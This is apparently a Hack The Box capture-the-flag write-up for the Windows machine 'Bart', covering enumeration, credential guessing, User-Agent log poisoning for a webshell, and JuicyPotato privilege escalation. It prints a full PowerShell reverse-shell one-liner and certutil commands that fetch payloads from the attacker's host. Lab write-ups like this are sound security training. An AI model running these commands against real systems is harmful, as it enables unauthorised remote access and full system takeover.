 # HTB - Bart

#### Ip: 10.10.10.81
#### Name: Bart
#### Difficulty: Medium

----------------------------------------------------------------------

![Bart.png](../assets/bart_assets/Bart.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.81 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 12:14 CDT
Nmap scan report for 10.10.10.81
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```

Ok looks like just port 80 is open here. Lets add forum.bart.htb to our `/etc/hosts` file.

Taking a look at the webpage we find a company page:

![site.png](../assets/bart_assets/site.png)

taking a look at the page source we also find a comment left behind that includes a name:

![name.png](../assets/bart_assets/name.png)

Because port 80 redirected to forum.bart.htb I wondered if there were more domains we could fuzz. Lets try using wfuzz:

![wfuzz.png](../assets/bart_assets/wfuzz.png)

Ok cool, looks like there is also a monitor.bart.htb- lets add that to `/etc/hosts` as well.

This leads us to a server monitor page. 

![monitor.png](../assets/bart_assets/monitor.png)

Because we've found the username harvey, I tried some random passwords and got lucky logging in with the credentials harvey:potter, which we found in the page source comment on forum.bart.htb. 

![login.png](../assets/bart_assets/login.png)

Looking in the Servers section of the page we find yet another domain to add to `/etc/hosts`

Navigating to the site we find another login page:

![dev.png](../assets/bart_assets/dev.png)

Trying the credentials harvey:potter again we get a verbose error message `The Password must be at least 8 characters`. But if we try a user we know won't exist like testing:testing123 we get the message `Invalid Username or Password`. This leads me to believe that the user harvey is a valid username here. 

Trying some more directory scanning we find the page http://internal-01.bart.htb/simple_chat/register_form.php. Navigating to the page we get the message `The page cannot be displayed because an internal server error has occurred.`

Searching Google for simple_chat/register_form.php I find this GitHub page which contains source code for the page. https://github.com/magkopian/php-ajax-simple-chat/blob/master/simple_chat/register.php

![gh.png](../assets/bart_assets/gh.png)

Cool, looks like the page wants two fields uname and passwd. Lets try creating a new user using curl and making a POST request to /register.php

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=testing&passwd=password123"
```

Nice, that seemed to work. Lets return to the login page and authenticate.

![in.png](../assets/bart_assets/in.png)

Awesome, that worked! 

Taking a look at the source code we find an interesting link and function:

![source.png](../assets/bart_assets/source.png)

Capturing this in Burp and playing around with it a bit, I find that the User Agent field is vulnerable. I can inject a webshell into the field and get execution on the box:

![php.png](../assets/bart_assets/php.png)

![whoami.png](../assets/bart_assets/whoami.png)

Heading over to https://www.revshells.com/ and grabbing a PowerShell reverse shell and URL encoding it, I can set up a NetCat listener and get a reverse shell back:

![burp.png](../assets/bart_assets/burp.png)

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.81] 50147
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log> hostname
BART
PS C:\inetpub\wwwroot\internal-01\log>
```

### Privilege Escalation

At this point, I still don't seem to have access to the user.txt flag, so let's try to escalate privileegs to administrator.

Running `whoami /all` I see that `SeImpersonatePrivilege` is enabled. This means we may be able to try something like juicy potato to escalate privileges. 

First we'll need to create a file called shell.bat:

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.72',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then we'll need to transfer to the target the shell.bat file as well as juicy potato:

```text
certutil -urlcache -split -f "http://10.10.14.72/shell.bat"

certutil -urlcache -split -f "http://10.10.14.72/JuicyPotato.exe"
```

```text
PS C:\TEMP> dir


    Directory: C:\TEMP


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       06/09/2023     19:24         347648 JuicyPotato.exe               
-a----       06/09/2023     19:23            522 shell.bat 
```

Next we'll set up a NetCat listener and run:

```text
C:\TEMP\JuicyPotato.exe -l 444 -p C:\TEMP\shell.bat -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

And we will catch a shell back as nt authority\ system!

![jp.png](../assets/bart_assets/jp.png)

All we have to do now is grab the user.txt and root.txt flags:

![flags.png](../assets/bart_assets/flags.png)

Thanks for following along!

-Ryan

----------------------------------------
